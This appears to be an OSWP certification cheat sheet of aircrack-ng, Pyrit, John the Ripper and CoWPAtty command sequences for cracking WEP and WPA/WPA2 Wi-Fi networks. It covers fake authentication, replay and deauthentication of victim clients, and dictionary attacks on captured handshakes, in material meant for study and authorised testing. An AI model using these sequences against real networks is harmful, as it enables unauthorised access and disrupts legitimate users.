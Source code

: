 # OSWP
Offensive Security Wireless Professional

## WEP (Wired Equivalent Privacy)

### Open Authentication

#### Cracking WEP with connected clients

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC wlan0mon> wlan0mon (Fake authentication)
aireplay-ng -3 -b <BSSID> -h <MAC wlan0mon> wlan0mon (ARP replay attack)
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon (Deauthentication attack)
aircrack-ng <.CAP FILENAME>
```

#### Cracking WEP via a connected client

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon (Fake authentication)
aireplay-ng -2 -b <BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon (Interactive Packet Replay Attack)
aircrack-ng -z <.CAP FILENAME>
```

#### Cracking clientless WEP network

##### KoreK chopchop attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -4 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```

##### Fragmentation attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 6000 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -5 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```

### Shared Key Authentication

#### Bypassing WEP Shared Key Authentication

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
aireplay-ng -1 0 -e <ESSID> -y <.XOR FILENAME> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -3 -b <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
aircrack-ng <.CAP FILENAME>
```

---

## WPA/WPA2 (Wi-Fi Protected Access)

### Pre-Shared Key Authentication

#### Cracking WPA with Aircrack-ng

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
```

##### Dictionary mode

```
aircrack-ng -w <WORDLIST> <.CAP FILENAME>
```

##### Database mode

```
aircrack-ng -r <DB NAME> <.CAP FILENAME>
```

#### Cracking WPA with Pyrit

```
airmon-ng start <INTERFACE> <CHANNEL>
pyrit -r <INTERFACE> -o <FILENAME> stripLive
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
```

##### Dictionary mode

```
pyrit -r <.CAP FILENAME> -i <WORDLIST> -b <BSSID> attack_passthrough
```

##### Database mode

```
pyrit -i <WORDLIST> import_passwords
pyrit -e <ESSID> create_essid
pyrit batch
pyrit -r <.CAP FILENAME> -b <BSSID> attack_db
```

#### Cracking WPA with John the Ripper (JTR)

```
./john --wordlist=<WORDLIST> --rules --stdout | aircrack-ng -e <ESSID> -w - <.CAP FILENAME>
```

#### Cracking WPA with CoWPAtty

```
cowpatty -r <.CAP FILENAME> -f <WORDLIST> -s <ESSID>
```

